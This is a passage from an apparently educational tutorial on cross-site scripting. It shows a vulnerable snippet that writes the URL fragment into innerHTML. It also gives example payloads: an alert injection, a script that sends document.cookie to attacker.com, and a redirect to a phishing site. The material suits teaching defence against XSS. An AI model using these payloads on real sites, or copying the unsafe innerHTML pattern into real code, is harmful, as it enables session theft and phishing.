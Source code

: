 Suppose a website has the following JavaScript code to display usernames:
```html
<div id="user">Hello, <span id="username"></span></div>
<script>
 var username = location.hash.substring(1);
 document.getElementById('username').innerHTML = username;
</script>
```
If a user accesses the URL:
```html
http://example.com/#<script>alert('You have been attacked!');</script>
```
The JavaScript code will change the content of the `username` element and execute the malicious code, resulting in the display of a warning message.

<a name="applications-of-xss-crosssite-scripting"></a>
## IV. Applications of XSS (Cross-Site Scripting)

Cross-Site Scripting (XSS) is a dangerous security vulnerability that can be exploited by attackers to perform various malicious actions. Here are some examples of what XSS can be used for:

<a name="steal-cookies-and-session-information"></a>
### 1. Steal Cookies and Session Information

One of the most common purposes of XSS attacks is to steal users' cookies. Cookies often contain login session information and other sensitive information. An attacker can use JavaScript code to send a user's cookie to their server, thereby using this cookie to impersonate the user's identity and access the user's account on the attacked website.

**For example:**
```javascript
<script>
var img = new Image();
img.src = "http://attacker.com/steal-cookie?cookie=" + document.cookie;
</script>
```
This code sends the user's cookie to the attacker's server.

<a name="phishing-attacks-and-malicious-redirects"></a>
### 2. Phishing Attacks and Malicious Redirects

XSS can be used to carry out phishing attacks by changing the appearance of a website or redirecting users to a fake website to steal login credentials and other personal data.

**For example:**
```javascript
<script>
window.location = "http://phishing-site.com";
</script>
```
This code will redirect users to a fake website.

<a name="inserting-harmful-content"></a>
### 3. Inserting Harmful Content
